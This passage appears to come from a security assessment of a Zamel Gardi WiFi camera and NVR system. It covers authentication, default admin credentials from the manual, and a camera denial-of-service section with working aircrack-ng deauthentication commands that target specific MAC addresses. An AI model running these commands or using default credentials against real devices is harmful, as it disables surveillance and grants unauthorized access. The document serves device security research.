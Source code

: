 ![HDMI view](img/hdmi.png "HDMI view")

It is also possible to access the interface on the port 80, but for stream view an additional browser plugin is required.

### Panel Authentication
The first step was logging into the system and checking how authentication and authorization were implemented. I haven't found any severe errors in the implementation.
On the every endpoint, it is checked whether the user is authenticated. Login and password is passed via `Authorization` header and no session nor password is saved in the cookies or local storage, which prevents basic CSRF-like attacks.

In the [manual](https://zamel.com/pl/gardi/zmb-01-instrukcja.pdf) the following default credentials can be found:

**Login:** admin\
**Password:** 12345

### Camera DoS
Using WIFI for communication between cameras and NVR makes it really easy to install the system. All you need to add a new camera is to connect it to the power.
However, as WIFI is communicating remotely via radio waves, it is possible to disrupt the signal. With WIFI it is even easier as you don't need to jam on the entire 2.4GHz.
What one can do is attempt a [WIFI deauthentication attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack):

```bash
sudo airmon-ng start wlp7s0f3u6u1
sudo airodump-ng wlp7s0f3u6u1mon
sudo aireplay-ng --deauth 0 -c E0:09:BF:56:F4:58 -a E0:09:BF:80:03:6F wlp7s0f3u6u1mon
```
